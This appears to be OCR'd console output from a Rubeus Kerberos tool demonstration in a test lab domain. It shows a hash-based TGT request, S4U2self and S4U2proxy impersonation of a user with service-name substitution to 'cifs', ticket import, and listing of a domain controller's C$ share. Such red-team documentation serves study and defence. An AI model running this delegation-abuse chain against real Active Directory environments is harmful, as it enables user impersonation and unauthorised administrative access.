     v1.3.3

    [*] Action: Ask TGT

    [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 230 bytes
    [*] Received 1377 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIE+jCCBPagAwIBBaEDAgEWoo..(snip)..


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..

    [*] Impersonating user 'dfm.a' to target SPN 'ldap/PRIMARY.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi) for SPN 'cifs/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Rubeus>dir \\primary.testlab.local\C$
    Volume in drive \\primary.testlab.local\C$ has no label.
    Volume Serial Number is A48B-4D68

    Directory of \\primary.testlab.local\C$

    07/05/2018  12:57 PM    <DIR>          dumps
    03/05/2017  04:36 PM    <DIR>          inetpub
    08/22/2013  07:52 AM    <DIR>          PerfLogs
    04/15/2017  05:25 PM    <DIR>          profiles
    08/28/2018  11:51 AM    <DIR>          Program Files
    08/28/2018  11:51 AM    <DIR>          Program Files (x86)
    10/09/2018  12:04 PM    <DIR>          Temp
    08/23/2018  03:52 PM    <DIR>          Users
    10/25/2018  01:15 PM    <DIR>          Windows
                1 File(s)              9 bytes
                9 Dir(s)  40,511,676,416 bytes free
